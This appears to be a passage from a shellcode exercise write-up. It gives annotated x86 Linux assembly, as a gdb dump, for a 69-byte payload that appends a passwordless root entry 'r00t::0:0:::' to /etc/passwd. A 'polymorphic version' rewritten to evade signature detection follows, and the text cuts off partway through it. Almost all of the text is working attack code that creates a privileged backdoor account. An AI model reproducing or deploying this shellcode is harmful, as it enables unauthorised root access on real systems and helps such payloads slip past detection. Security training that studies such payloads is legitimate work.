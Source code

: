 The original code is as follow (gdb dump) :  
**Size : 69 bytes**
```nasm
   ; man 2 open
   ; int open(const char *pathname, int flags);
=> 0x00404040 <+0>:	push   0x5
   0x00404042 <+2>:	pop    eax         ; Open syscall number
   0x00404043 <+3>:	xor    ecx,ecx     
   0x00404045 <+5>:	push   ecx         ; String terminator
   0x00404046 <+6>:	push   0x64777373  ; dwss
   0x0040404b <+11>:	push   0x61702f2f  ; ap//
   0x00404050 <+16>:	push   0x6374652f  ; cte/
   0x00404055 <+21>:	mov    ebx,esp	   ; pointer to "/etc//passwd"
   0x00404057 <+23>:	mov    cx,0x401    ; => octal:2001, flags O_APPEND/O_WRONLY
					   ; # define O_APPEND         02000
					   ; #define O_WRONLY             01
   0x0040405b <+27>:	int    0x80        ; exec open

   0x0040405d <+29>:	mov    ebx,eax     ; copy file descriptor to EBX
   0x0040405f <+31>:	push   0x4   
   0x00404061 <+33>:	pop    eax         ; write syscall number
   0x00404062 <+34>:	xor    edx,edx    
   0x00404064 <+36>:	push   edx         ; string terminator
   0x00404065 <+37>:	push   0x3a3a3a30  ; :::0
   0x0040406a <+42>:	push   0x3a303a3a  ; :0::
   0x0040406f <+47>:	push   0x74303072  ; t00r
   0x00404074 <+52>:	mov    ecx,esp     ; pointer to "r00t::0:0:::"
   0x00404076 <+54>:	push   0xc     
   0x00404078 <+56>:	pop    edx         ; string length 12
   0x00404079 <+57>:	int    0x80        ; exec write

   0x0040407b <+59>:	push   0x6          
   0x0040407d <+61>:	pop    eax         ; close syscall number (EBX set to fd) 
   0x0040407e <+62>:	int    0x80        ; close file descriptor

   0x00404080 <+64>:	push   0x1	   
   0x00404082 <+66>:	pop    eax         ; exit syscall number
   0x00404083 <+67>:	int    0x80        ; exit
```

Polymorphic version :  
**Size : 69 bytes**
```nasm
    xor     ebx, ebx
    mul     ebx			; EAX, EBX, EDX set to 0
    mov     al, 0x5		; open syscall number
    push    ebx			; string terminator
    push    0x64777373		
    push    0x61702f2f
    push    0x6374652f
    xchg    ebx, ecx		; ECX set to 0
    lea     ebx, [esp]		; EBX point to /etc/passwd
    mov     ch, 0x4		
    inc     ecx			; ECX => 0x401
    int     0x80

    xchg    eax, ebx		; Copy fd in EBX
    mov     eax, edx		; EAX set to 0
    push    eax			; String terminator
    xchg    al, ch		; EAX = 0x4 => write syscall number
    push    0x3a3a3a30
    push    0x3a303a3a
    push    0x74303072
    lea     ecx, [esp]		; ECX point to "r00t::0:0:::"
    mov     dl, 0xc		; string lengh
```